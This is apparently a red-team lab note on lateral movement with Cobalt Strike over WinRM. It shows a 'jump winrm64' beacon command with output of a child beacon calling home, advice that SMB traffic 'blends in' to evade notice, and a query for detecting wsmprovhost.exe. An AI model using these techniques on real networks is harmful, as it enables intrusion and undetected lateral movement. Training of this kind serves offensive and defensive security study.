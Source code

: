 {% hint style="info" %}
Most lateral movement techniques will leverage legitimate Windows Management functionality, as this type of traffic and activity is not unusual to see on a network.
{% endhint %}

## Windows Remote Management

The <mark style="color:yellow;">`winrm`</mark> and <mark style="color:yellow;">`winrm64`</mark> methods can be used for 32/64-bit targets as needed.

The _<mark style="color:green;">**SMB Beacon is an excellent choice when moving laterally**</mark>_.

{% hint style="info" %}
:bulb:

This is because the SMB protocol is used extensively in a Windows environment, meaning this traffic will "blend in" very well with the rest of the network traffic.
{% endhint %}

&#x20;**See below:**

```
beacon> jump winrm64 web.dev.cyberbotic.io smb
[*] Tasked beacon to run windows/beacon_bind_pipe (\\.\pipe\TSVCPIPE-81180acb-0512-44d7-81fd-fbfea25fff10) on web.dev.cyberbotic.io via WinRM
[+] host called home, sent: 225172 bytes
[+] established link to child beacon: 10.10.122.30
```

_**WinRM**_ will return a high-integrity Beacon running as the user with which you're interacting with the remote machine as.

<figure><img src="../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This new Beacon will be running inside the `wsmprovhost.exe` binary, which is the "Host process for WinRM plug-ins".

This is used whenever WinRM is used, legitimate or otherwise.

### Detecting WinRM

**You can search for process start events, but this will produce a lot of false positives if WinRM is being used legitimately throughout the network by system administrators:**

{% code overflow="wrap" %}
```
event.category: process and event.type: start and process.name: wsmprovhost.exe
```
{% endcode %}
